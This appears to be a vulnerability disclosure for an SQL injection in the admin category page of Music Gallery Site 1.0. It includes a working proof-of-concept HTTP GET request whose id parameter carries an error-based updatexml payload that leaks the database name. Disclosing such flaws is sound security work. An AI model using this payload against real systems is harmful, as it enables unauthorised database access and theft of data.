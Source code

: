 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/admin/categories/manage_category.php

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in s/manage_category.php. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /php-music/admin/categories/manage_category.php?id=1%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
<img width="1216" alt="image" src="https://github.com/user-attachments/assets/26661d41-f226-45ab-a713-2bced704a11b">



